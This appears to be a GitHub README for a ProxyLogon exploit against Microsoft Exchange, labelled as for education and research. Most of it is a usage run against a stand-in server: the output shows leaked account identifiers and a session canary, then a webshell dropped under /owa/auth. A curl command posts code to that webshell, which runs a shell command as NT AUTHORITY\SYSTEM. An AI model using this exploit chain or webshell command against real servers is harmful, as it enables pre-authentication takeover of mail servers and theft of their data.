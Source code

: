 # ProxyLogon Pre-Auth SSRF To Arbitrary File Write
For Education and Research
# Usage:
```
C:\>python proxylogon.py mail.evil.corp administratror@evil.corp
Attacking target mail.evil.corp
=============================
Got DN: /o=EVIL CORP/ou=first administrative group/cn=Recipients/cn=Administrator
Got SID: S-1-5-21-175943541-xxxxxxxxxx-3152120021-500
Got session id: a99eda32-xxxx-xxxx-825b-5f1c4a6080e7
Got canary: rOWUk7lmAUC2-5HIlQ4EpGq1rPu959xxxxxxxxxx_xxxxxxx_xxx_a-KJ5WR-9j95yu-JOv3dFY.
=========== It means good to go!!!====
Got OAB id: 2f3d4600-xxxx-xxxx-xxxx-b4a4c1d3fb58
Successful!
(+) Webshell drop at https://mail.evil.corp/owa/auth/evilcorp.aspx
(+) Code: curl -ik https://mail.evil.corp/owa/auth/evilcorp.aspx -d 'exec_code=Response.Write(new ActiveXObject("WScript.Shell").exec("cmd /c whoami").stdout.readall())'
CMD: whoami
nt authority\system
```
# Want this? (it made from script kiddies)
![image](https://user-images.githubusercontent.com/39673284/111138618-b9a1e580-85b2-11eb-93df-14c5449798a4.png)

